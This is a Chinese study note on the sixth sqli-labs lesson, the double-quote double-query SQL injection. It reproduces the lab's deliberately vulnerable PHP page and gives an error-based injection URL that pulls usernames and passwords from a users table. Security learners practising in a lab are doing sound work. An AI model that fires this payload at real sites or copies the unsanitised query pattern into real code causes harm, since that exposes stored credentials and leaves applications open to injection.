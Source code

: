 ```yaml
---
title: sqli-labs学习笔记_06
categories:
- sqli-labs
tags:
- sql注入
updated: 2018-06-07
---
```


**第六节：GET - Double Injection - Double Quotes - String** (双注入GET双引号字符型注入)

 

可以在你的php文件中加上一句话:echo "你的sql语句是：

```php+HTML
echo "你的sql语句是：".$sql."<br>";
```

代码如下：

~~~php+HTML
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>Less-6 Double Query- Double Quotes- String</title>
</head>

<body bgcolor="#000000">
<div style=" margin-top:60px;color:#FFF; font-size:23px; text-align:center">Welcome&nbsp;&nbsp;&nbsp;<font color="#FF0000"> Dhakkan </font><br>
<font size="3" color="#FFFF00">


<?php
//including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");
error_reporting(0);
// take the variables
if(isset($_GET['id']))
{
$id=$_GET['id'];
//logging the connection parameters to a file for analysis.
$fp=fopen('result.txt','a');
fwrite($fp,'ID:'.$id."\n");
fclose($fp);

// connectivity 

$id = '"'.$id.'"';
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
echo "你的sql语句是：".$sql."<br>";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo '<font size="5" color="#FFFF00">';	
  	echo 'You are in...........';
  	echo "<br>";
  	echo "</font>";
  	}
	else 
	{
	
	echo '<font size="3"  color= "#FFFF00">';
	print_r(mysql_error());
	echo "</br></font>";	
	echo '<font color= "#0000ff" font size= 3>';	
	
	}
}
	else { echo "Please input the ID as parameter with numeric value";}

?>
</font> </div></br></br></br><center>
<img src="../images/Less-6.jpg" /></center>
</body>
</html>

~~~



 当使用http://127.0.0.1/Less-6/?id=1的时候：

<img src="{{ site.url }}/assets//blog_images/sqli-labs_06_01.png" />

这个和5是一样的界面，没有正常的输出用户名和密码。还是双注入

子查询可以理解为，将一个查询置于一个已存在的查询中，或将查询作为另一个查询的一部分。动态处理内部查询，并生成最终结果，例如:

**Select concat(****(select database())****)**;注意不要写错。上述查询中，蓝色部分就是子查询，它会首先被评估。

然后结果被传递给concat函数。

http://127.0.0.1/sqli-labs-master/Less-6/?id=-1" union select count(*),2,concat('*',(select concat_ws(char(32,44,32),id,username,password) from users limit 0,1),'*',floor(rand()*2))as a from information_schema.tables group by a--+  



(个人学习笔记，部分转自互联网)













 








